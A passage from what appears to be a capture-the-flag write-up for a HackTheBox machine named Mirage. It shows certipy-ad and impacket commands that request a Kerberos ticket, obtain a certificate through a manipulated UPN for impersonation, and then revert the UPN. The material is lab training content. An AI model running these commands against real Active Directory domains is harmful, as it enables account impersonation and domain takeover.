 ```bash
impacket-getTGT mirage.htb/mark.bbond:'1day@atime'
export KRB5CCNAME=mark.bbond.ccache
certipy-ad req \
  -u 'mark.bbond@mirage.htb' \
  -k -no-pass \
  -dc-ip 10.10.11.78 \
  -target 'dc01.mirage.htb' \
  -ca 'mirage-DC01-CA' \
  -template 'User'
```

![Wrote-Cert-and-Private-Key](assets/img/Wrote-Cert-and-Private-Key.png)

> ✅ Certificate written to `dc01.pfx` — ready for impersonation.

### 🔄 3. UPN Reversion

🎯 Restore the original `UPN` of `mark.bbond`.

```bash
export KRB5CCNAME=Mirage-Service\$.ccache
certipy-ad account update \
  -user 'mark.bbond' \
  -upn 'mark.bbond@mirage.htb' \
  -u 'mirage-service$@mirage.htb' \
  -k -no-pass \
  -dc-ip 10.10.11.78 \
  -target dc01.mirage.htb
```

![UPN-Reversion](assets/img/UPN-Reversion.png)
